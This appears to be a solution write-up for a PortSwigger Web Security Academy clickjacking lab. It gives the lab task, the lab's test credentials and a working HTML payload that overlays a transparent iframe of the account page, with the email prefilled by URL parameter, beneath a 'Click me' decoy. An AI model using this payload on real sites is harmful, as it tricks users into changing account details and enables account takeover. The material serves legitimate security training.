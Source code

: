 # Clickjacking with form input data prefilled from a URL parameter

## This lab extends the basic [clickjacking example](https://portswigger.net/web-security/clickjacking) in [Lab: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

## To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

## You can log in to your own account using the following credentials: `wiener:peter`

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 449px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a42000a0300fd468040958c003b0034.web-security-academy.net/my-account?email=wiener@normal11-user.net"
></iframe>
```
